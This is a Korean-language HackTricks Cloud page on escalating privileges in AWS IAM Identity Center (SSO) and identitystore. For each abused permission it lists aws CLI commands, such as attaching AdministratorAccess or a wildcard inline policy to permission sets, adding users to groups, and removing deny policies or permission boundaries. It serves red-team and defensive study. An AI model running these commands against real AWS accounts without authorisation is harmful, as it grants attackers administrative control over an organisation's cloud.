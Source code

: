 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
기본적으로 **Management Account**에서 **권한**이 있는 **사용자**만 IAM Identity Center에 접근하고 **제어**할 수 있습니다.\
다른 계정의 사용자는 해당 계정이 **Delegated Administrator**인 경우에만 허용할 수 있습니다.\
[자세한 내용은 문서를 확인하세요.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~비밀번호 재설정~~

이와 같은 경우 권한을 상승시키는 쉬운 방법은 사용자의 비밀번호를 재설정할 수 있는 권한을 가지는 것입니다. 불행히도 사용자의 비밀번호를 재설정하기 위해 이메일을 보내는 것만 가능하므로 사용자의 이메일에 접근해야 합니다.

### `identitystore:CreateGroupMembership`

이 권한을 사용하면 사용자를 그룹에 추가하여 그룹이 가진 모든 권한을 상속받을 수 있습니다.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 Permission Set에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 권한 세트에 추가 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 부여된 Permission Set에 추가 권한을 부여할 수 있습니다.

{% hint style="warning" %}
이 경우 이러한 권한을 악용하려면 **영향을 받을 모든 계정에 있는 고객 관리 정책의 이름**을 알아야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

이 권한을 가진 공격자는 자신의 통제 하에 있는 사용자에게 계정에 대한 권한 세트를 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

사용자에게 할당된 특정 역할 이름에 대한 STS 단기 자격 증명을 반환합니다.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

그러나, 어떻게 접근 토큰을 얻는지 잘 모르겠습니다 (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 세트에서 AWS 관리 정책과의 연관성을 제거할 수 있습니다. **관리 정책을 분리함으로써 (거부 정책)** 더 많은 권한을 부여하는 것이 가능합니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

이 권한을 가진 공격자는 지정된 권한 세트에서 고객 관리 정책과의 연관성을 제거할 수 있습니다. **관리 정책(거부 정책)을 분리함으로써** 더 많은 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

이 권한을 가진 공격자는 권한 세트에서 인라인 정책의 권한을 제거할 수 있습니다. 인라인 정책(거부 정책)을 분리하여 **더 많은 권한을 부여하는 것이 가능합니다**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

이 권한을 가진 공격자는 권한 세트에서 권한 경계를 제거할 수 있습니다. 권한 경계에서 주어진 권한 세트의 제한을 제거함으로써 **더 많은 권한을 부여할 수 있습니다**.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
